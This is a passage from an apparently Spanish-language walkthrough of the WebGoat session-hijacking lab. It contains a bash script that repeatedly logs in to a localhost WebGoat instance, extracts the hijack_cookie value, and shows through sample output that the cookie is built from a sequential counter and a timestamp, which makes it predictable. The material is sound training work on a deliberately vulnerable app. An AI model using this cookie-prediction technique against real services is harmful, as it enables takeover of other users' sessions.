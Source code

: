 Notamos una especie de secuencia pero pdemos estar mas seguros con esto sacar diferencias en ambas partes

```bash
#!/bin/bash
parte1_tmp=0
parte2_tmp=0
limit=$2
for i in $(seq 1 $limit)
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	
	parte1=${hijack_cookie%-*}
	parte1=$((parte1))
	diferencia1=$(( parte1 - parte1_tmp ))
	parte1_tmp=$parte1
	parte2=${hijack_cookie#*-}	
	parte2=$((parte2))
	diferencia2=$(( parte2 - parte2_tmp ))
	parte2_tmp=$parte2
	echo "$parte1 ($diferencia1) + $parte2 ($diferencia2)"
done
```

Con `./script.sh $JSESSIONID 20` notamos que la primera recurrentemente aumenta una unidad y la segunda parte alrededor de 30 unidades. Esa distancia casi fija da pistas de que podemos estar tratando de marcas temporales:

```plaintext
4745395612611419515 (4745395612611419515) + 1686442228092 (1686442228092)
4745395612611419517 (2) + 1686442228116 (24)
4745395612611419518 (1) + 1686442228143 (27)
4745395612611419519 (1) + 1686442228168 (25)
4745395612611419520 (1) + 1686442228192 (24)
4745395612611419521 (1) + 1686442228217 (25)
4745395612611419522 (1) + 1686442228241 (24)
4745395612611419523 (1) + 1686442228276 (35)
4745395612611419524 (1) + 1686442228305 (29)
4745395612611419525 (1) + 1686442228348 (43)
4745395612611419527 (2) + 1686442228371 (23)
4745395612611419529 (2) + 1686442228392 (21)
4745395612611419530 (1) + 1686442228414 (22)
4745395612611419531 (1) + 1686442228438 (24)
4745395612611419532 (1) + 1686442228458 (20)
4745395612611419533 (1) + 1686442228513 (55)
4745395612611419534 (1) + 1686442228539 (26)
4745395612611419535 (1) + 1686442228559 (20)
4745395612611419537 (2) + 1686442228583 (24)
4745395612611419538 (1) + 1686442228604 (21)

```
